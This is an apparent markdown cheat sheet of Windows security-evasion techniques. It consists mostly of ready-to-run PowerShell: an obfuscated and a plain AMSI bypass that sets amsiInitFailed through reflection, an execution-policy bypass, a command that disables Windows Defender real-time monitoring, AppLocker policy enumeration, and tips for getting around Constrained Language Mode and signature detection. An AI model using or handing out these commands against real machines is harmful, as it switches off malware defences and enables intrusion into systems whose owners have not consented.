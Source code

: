 # Bypass Technique
> test

## ASMI
```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )


[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

## Execution Policy
bypass execution retriction
```powershell
powershell -ep bypass
```
## Window Defender
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Applocker
see app locker policy
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

## Constraint Language Mode
It cannot run with dot in the front, you could modified it by appendindg the function you want to call on the end of the ps file.

## Signature base
Changing the name of the ps file and/or functions